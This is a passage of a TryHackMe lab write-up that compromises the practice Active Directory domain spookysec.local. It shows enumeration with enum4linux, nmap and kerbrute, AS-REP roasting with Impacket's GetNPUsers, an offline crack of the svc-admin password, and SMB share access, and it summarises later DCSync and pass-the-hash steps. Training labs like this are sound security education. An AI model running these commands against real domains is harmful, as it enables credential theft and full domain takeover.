









# Attacktive Directory

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Attacktive Directory | TryHackMe | Medium | TryHackMe |

**Summary:** This room walks through a full Active Directory compromise against the `spookysec.local` domain. The attack begins with passive reconnaissance using `enum4linux` and `nmap`, which reveal a Windows Server 2019 domain controller exposing Kerberos, LDAP, SMB, RDP, and WinRM. Username enumeration via `kerbrute` against the Kerberos service identifies a set of valid domain accounts, among which `svc-admin` is found to have Kerberos pre-authentication disabled. This misconfiguration makes it possible to request an AS-REP ticket without supplying credentials, an attack technique known as AS-REP Roasting. The returned ticket, encrypted with the user's password-derived key, is cracked offline using `john` against a custom wordlist, yielding the plaintext password `management2005`. Authenticated as `svc-admin`, a non-administrative SMB session reveals a `backup` share containing a Base64-encoded credential file. Decoding it surfaces a second account, `backup@spookysec.local`, whose membership in the `Backup Operators` group grants it the elevated `Replicating Directory Changes` privilege. This privilege is exploited via Impacket's `secretsdump.py` to perform a DCSync operation, which replicates the entire NTDS.DIT secret store remotely, returning the NTLM hashes of every domain user including the built-in `Administrator`. The Administrator hash is then used directly in a Pass-the-Hash attack via `evil-winrm`, achieving a fully interactive PowerShell session on the Domain Controller and reading all three flags.

---

## Environment Setup

Before engaging the target, the attacking machine was prepared with the necessary tooling. The VPN connection was established and sent to the background, and Impacket was installed from source inside a Python virtual environment to ensure a clean dependency chain. BloodHound and Neo4j were also installed for potential graph-based AD analysis.

**Step 1.** Connect to the TryHackMe VPN and background the process:

```bash
┌──(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ sudo openvpn ap-south-1-Moenkoe-regular.ovpn
[sudo] password for kali:
2026-03-08 18:34:42 Note: --cipher is not set. OpenVPN versions before 2.5 defaulted to BF-CBC as fallback when cipher negotiation failed in this case. If you need this fallback please add '--data-ciphers-fallback BF-CBC' to your configuration and/or add BF-CBC to --data-ciphers.
2026-03-08 18:34:42 Note: Kernel support for ovpn-dco missing, disabling data channel offload.
2026-03-08 18:34:42 OpenVPN 2.6.14 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] [DCO]
...
2026-03-08 18:34:43 Protocol options: explicit-exit-notify 1, protocol-flags cc-exit tls-ekm dyn-tls-crypt
^Z
zsh: suspended  sudo openvpn ap-south-1-Moenkoe-regular.ovpn

┌──(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ bg
[1]  + continued  sudo openvpn ap-south-1-Moenkoe-regular.ovpn
```



**Step 2.** Clone and install Impacket from source, then install BloodHound and Neo4j:

```bash
┌──(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ git clone https://github.com/SecureAuthCorp/impacket.git ./impacket
Cloning into './impacket'...
...
Resolving deltas: 100% (19472/19472), done.

┌──(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ cd impacket

┌──(kali㉿kali)-[/tmp/attacktivedirectory/impacket]
└─$ python3 -m venv venv

┌──(kali㉿kali)-[/tmp/attacktivedirectory/impacket]
└─$ source venv/bin/activate

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory/impacket]
└─$ pip3 install -r requirements.txt
Ignoring pyreadline3: markers 'sys_platform == "win32"' don't match your environment
...
Successfully installed blinker-1.9.0 cffi-2.0.0 charset_normalizer-3.4.5 click-8.3.1 cryptography-46.0.5 dnspython-2.8.0 flask-3.1.3 itsdangerous-2.2.0 jinja2-3.1.6 ldap3-2.9.1 ldapdomaindump-0.10.0 markupsafe-3.0.3 pyOpenSSL-25.3.0 pyasn1-0.6.2 pyasn1_modules-0.4.2 pycparser-3.0 pycryptodomex-3.23.0 setuptools-82.0.0 six-1.17.0 werkzeug-3.1.6
```

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory/impacket]
└─$ python3 ./setup.py install
/tmp/attacktivedirectory/impacket/venv/lib/python3.13/site-packages/setuptools/dist.py:332: InformationOnly: Normalizing '0.14.0.dev+20260306.165346.8c155a5b' to '0.14.0.dev0+20260306.165346.8c155a5b'
  self.metadata.version = self._normalize_version(self.metadata.version)
running install
/tmp/attacktivedirectory/impacket/venv/lib/python3.13/site-packages/setuptools/_distutils/cmd.py:90: SetuptoolsDeprecationWarning: setup.py install is deprecated.
!!

        ********************************************************************************
        Please avoid running ``setup.py`` directly.
        Instead, use pypa/build, pypa/installer or other
        standards-based tools.

        This deprecation is overdue, please update your project and remove deprecated
        calls to avoid build errors in the future.

        See https://blog.ganssle.io/articles/2021/10/setup-py-deprecated.html for details.
        ********************************************************************************

!!
  self.initialize_options()
running build
running build_py
...
changing mode of /tmp/attacktivedirectory/impacket/venv/bin/wmiquery.py to 775
```

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ sudo apt install bloodhound neo4j
The following package was automatically installed and is no longer required:
  libjs-underscore
Use 'sudo apt autoremove' to remove it.

Installing:
  bloodhound  neo4j
...
Continue? [Y/n] y
...
No VM guests are running outdated hypervisor (qemu) binaries on this host.
```



---

## Reconnaissance

With the environment ready, initial reconnaissance was performed against the target at `10.48.132.176`. `enum4linux` confirmed the target is a domain member and extracted the domain name `THM-AD` along with its SID. A full Nmap scan then mapped the open service landscape.

**Step 3.** Run `enum4linux` for SMB and domain enumeration:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ ip=10.48.132.176

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ enum4linux -a $ip
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Mar  8 19:00:08 2026

 =========================================( Target Information )=========================================

Target ........... 10.48.132.176
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 10.48.132.176 )===========================


[E] Can't find workgroup/domain


 ===============================( Nbtstat Information for 10.48.132.176 )===============================

Looking up status of 10.48.132.176
No reply from 10.48.132.176

 ===================================( Session Check on 10.48.132.176 )===================================


[+] Server 10.48.132.176 allows sessions using username '', password ''


 ================================( Getting domain SID for 10.48.132.176 )================================

Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963

[+] Host is part of a domain (not a workgroup)


 ==================================( OS information on 10.48.132.176 )==================================


[E] Can't get OS info with smbclient


[+] Got OS info for 10.48.132.176 from srvinfo:
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED


 =======================================( Users on 10.48.132.176 )=======================================


[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED


[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED


 =================================( Share Enumeration on 10.48.132.176 )=================================

do_connect: Connection to 10.48.132.176 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 10.48.132.176


 ===========================( Password Policy Information for 10.48.132.176 )===========================


[E] Unexpected error from polenum:


[+] Attaching to 10.48.132.176 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:10.48.132.176)

[+] Trying protocol 445/SMB...

        [!] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.


[E] Failed to get password policy with rpcclient


 ======================================( Groups on 10.48.132.176 )======================================


[+] Getting builtin groups:


[+]  Getting builtin group memberships:


[+]  Getting local groups:


[+]  Getting local group memberships:


[+]  Getting domain groups:


[+]  Getting domain group memberships:


 ==================( Users on 10.48.132.176 via RID cycling (RIDS: 500-550,1000-1050) )==================


[I] Found new SID:
S-1-5-21-3591857110-2884097990-301047963

[I] Found new SID:
S-1-5-21-3591857110-2884097990-301047963

[+] Enumerating users using SID S-1-5-21-3591857110-2884097990-301047963 and logon username '', password ''

S-1-5-21-3591857110-2884097990-301047963-500 THM-AD\Administrator (Local User)
S-1-5-21-3591857110-2884097990-301047963-501 THM-AD\Guest (Local User)
S-1-5-21-3591857110-2884097990-301047963-502 THM-AD\krbtgt (Local User)
S-1-5-21-3591857110-2884097990-301047963-512 THM-AD\Domain Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-513 THM-AD\Domain Users (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-514 THM-AD\Domain Guests (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-515 THM-AD\Domain Computers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-516 THM-AD\Domain Controllers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-517 THM-AD\Cert Publishers (Local Group)
S-1-5-21-3591857110-2884097990-301047963-518 THM-AD\Schema Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-519 THM-AD\Enterprise Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-520 THM-AD\Group Policy Creator Owners (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-521 THM-AD\Read-only Domain Controllers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-522 THM-AD\Cloneable Domain Controllers (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-525 THM-AD\Protected Users (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-526 THM-AD\Key Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-527 THM-AD\Enterprise Key Admins (Domain Group)
S-1-5-21-3591857110-2884097990-301047963-1000 THM-AD\ATTACKTIVEDIREC$ (Local User)

[+] Enumerating users using SID S-1-5-21-3532885019-1334016158-1514108833 and logon username '', password ''

S-1-5-21-3532885019-1334016158-1514108833-500 ATTACKTIVEDIREC\Administrator (Local User)
S-1-5-21-3532885019-1334016158-1514108833-501 ATTACKTIVEDIREC\Guest (Local User)
S-1-5-21-3532885019-1334016158-1514108833-503 ATTACKTIVEDIREC\DefaultAccount (Local User)
S-1-5-21-3532885019-1334016158-1514108833-504 ATTACKTIVEDIREC\WDAGUtilityAccount (Local User)
S-1-5-21-3532885019-1334016158-1514108833-513 ATTACKTIVEDIREC\None (Domain Group)


 ===============================( Getting printer info for 10.48.132.176 )===============================

do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Sun Mar  8 19:10:04 2026
```

**Step 4.** Run a full Nmap service and OS detection scan to map the attack surface:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ sudo nmap -sV -sC -O -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-08 19:10 WIB
Nmap scan report for 10.48.132.176
Host is up (0.18s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-08 12:08:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-08T12:08:50+00:00; -2m09s from scanner time.
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-08T12:08:41+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2026-03-07T11:32:18
|_Not valid after:  2026-09-06T11:32:18
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=3/8%OT=53%CT=1%CU=37479%PV=Y%DS=3%DC=I%G=Y%TM=69AD6758
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=107%TI=I%CI=I%II=I%SS=S%TS=U
OS:)SEQ(SP=104%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=104%GCD=2%ISR=
OS:10D%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=
OS:S%TS=U)SEQ(SP=106%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M4E8NW8N
OS:NS%O2=M4E8NW8NNS%O3=M4E8NW8%O4=M4E8NW8NNS%O5=M4E8NW8NNS%O6=M4E8NNS)WIN(W
OS:1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%
OS:O=M4E8NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD
OS:=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 3 hops
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-03-08T12:08:42
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: -2m09s, deviation: 0s, median: -2m09s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.59 seconds
```

The scan confirms a classic domain controller profile. The full-name DNS entry from the RDP certificate, `AttacktiveDirectory.spookysec.local`, combined with the LDAP domain `spookysec.local`, gives the complete picture needed for Kerberos-based attacks. Port `5985` (WinRM) being open is particularly notable as it means a direct PowerShell remoting session will be possible once credentials are obtained.



---

## Username Enumeration via Kerbrute

With the domain name confirmed, the next step is to discover valid domain accounts. The `kerbrute userenum` module exploits the Kerberos AS-REQ authentication process: a valid username causes the KDC to respond with an `AS-REP` or a pre-authentication required error, whereas an invalid username triggers a `PRINCIPAL_UNKNOWN` error. This difference allows silent, unauthenticated user enumeration without touching LDAP or triggering typical account lockout policies.

**Step 5.** Add the domain to `/etc/hosts` and download the wordlists, then run `kerbrute`:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ echo "10.48.132.176 spookysec.local" | sudo tee -a /etc/hosts
10.48.132.176 spookysec.local
```

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ wget wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
...
2026-03-08 19:14:35 (833 KB/s) - 'userlist.txt' saved [540470/540470]

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
...
2026-03-08 19:14:54 (811 KB/s) - 'passwordlist.txt' saved [569236/569236]
```

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
...
2026-03-08 19:15:25 (758 KB/s) - 'kerbrute' saved [8286607/8286607]

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ chmod +x kerbrute
```

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ host=spookysec.local

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ ./kerbrute userenum -d $host --dc $ip userlist.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/08/26 - Ronnie Flathers @ropnop

2026/03/08 19:16:25 >  Using KDC(s):
2026/03/08 19:16:25 >   10.48.132.176:88

2026/03/08 19:16:25 >  [+] VALID USERNAME:       james@spookysec.local
2026/03/08 19:16:28 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2026/03/08 19:16:32 >  [+] VALID USERNAME:       James@spookysec.local
2026/03/08 19:16:34 >  [+] VALID USERNAME:       robin@spookysec.local
2026/03/08 19:16:49 >  [+] VALID USERNAME:       darkstar@spookysec.local
2026/03/08 19:16:59 >  [+] VALID USERNAME:       administrator@spookysec.local
2026/03/08 19:17:18 >  [+] VALID USERNAME:       backup@spookysec.local
2026/03/08 19:17:26 >  [+] VALID USERNAME:       paradox@spookysec.local
2026/03/08 19:18:23 >  [+] VALID USERNAME:       JAMES@spookysec.local
2026/03/08 19:18:42 >  [+] VALID USERNAME:       Robin@spookysec.local
2026/03/08 19:20:35 >  [+] VALID USERNAME:       Administrator@spookysec.local
```

Kerbrute confirms eleven valid usernames. Among them, `svc-admin` and `backup` stand out as accounts likely to have been misconfigured for compatibility or legacy integration purposes and are prime candidates for AS-REP Roasting.



---

## AS-REP Roasting and Credential Recovery

When a Kerberos account has the `DONT_REQUIRE_PREAUTH` flag set, the KDC will return a ticket-granting ticket (TGT) wrapped in an AS-REP message to any unauthenticated requester. The portion of this response encrypted with the user's NT hash can be extracted and cracked offline, requiring no prior domain credentials whatsoever. This is the AS-REP Roasting technique.

**Step 6.** Request the AS-REP ticket for `svc-admin` using Impacket's `GetNPUsers.py`:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ python3 ./impacket/examples/GetNPUsers.py $host/ -no-pass -usersfile <(echo "svc-admin") -dc-ip $ip
Impacket v0.14.0.dev0+20260306.165346.8c155a5b - Copyright Fortra, LLC and its affiliated companies

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:2c16976ad04df26c1c9e8c161a18c564$6c6f80948505b108261e11db67c07d90e2778b76842c11ed2d1066d3859935316e039539f3bafc7c5502ee936ae5a0e32ad729794fea90011871cc4ca7ed0a3d193f67ccd30e3168362940822cc39397e9f54a7d2051c806f5c90f14695d04f69785b5801c9fd077f8c14d2b4dc73308633e6839f6b6f94319e87da3a5f519baa52a0ef75541fa77b4c843ae9ce4f72d86d003184015b96fcd02628bb94a6b521860fda954cfe23bbde31e1f62fa212b1895470c101dd79abb9d8521e62e8ca4f5edb6355af178bce97c07082740343abc5e5d1e4183cdc09583fb135e0b79f545a26c4c6cb1ea857a1c7d5f104202781c98
```

The hash format `$krb5asrep$23$` corresponds to hash mode `18200` in Hashcat's example hashes reference, confirming it is a Kerberos 5 AS-REP ticket encrypted with RC4.



**Step 7.** Save the hash to a file and crack it with `john` using the domain-specific wordlist:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ echo '$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:2c16976ad04df26c1c9e8c161a18c564$6c6f80948505b108261e11db67c07d90e2778b76842c11ed2d1066d3859935316e039539f3bafc7c5502ee936ae5a0e32ad729794fea90011871cc4ca7ed0a3d193f67ccd30e3168362940822cc39397e9f54a7d2051c806f5c90f14695d04f69785b5801c9fd077f8c14d2b4dc73308633e6839f6b6f94319e87da3a5f519baa52a0ef75541fa77b4c843ae9ce4f72d86d003184015b96fcd02628bb94a6b521860fda954cfe23bbde31e1f62fa212b1895470c101dd79abb9d8521e62e8ca4f5edb6355af178bce97c07082740343abc5e5d1e4183cdc09583fb135e0b79f545a26c4c6cb1ea857a1c7d5f104202781c98' > hash.txt

┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ john --wordlist=passwordlist.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
1g 0:00:00:00 DONE (2026-03-08 19:26) 20.00g/s 133120p/s 133120c/s 133120C/s horoscope..amy123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The password `management2005` is recovered instantly. The credential pair is now `svc-admin : management2005`.



---

## SMB Enumeration and Credential Exfiltration

With valid credentials for `svc-admin`, the SMB service is queried for accessible shares. A non-standard share named `backup` is present alongside the standard administrative shares.

**Step 8.** List available SMB shares and access the `backup` share to retrieve stored credentials:

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ smbclient -L //$host/ -U svc-admin
Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to spookysec.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

```bash
┌──(venv)─(kali㉿kali)-[/tmp/attacktivedirectory]
└─$ smbclient //$host/backup -U svc-admin
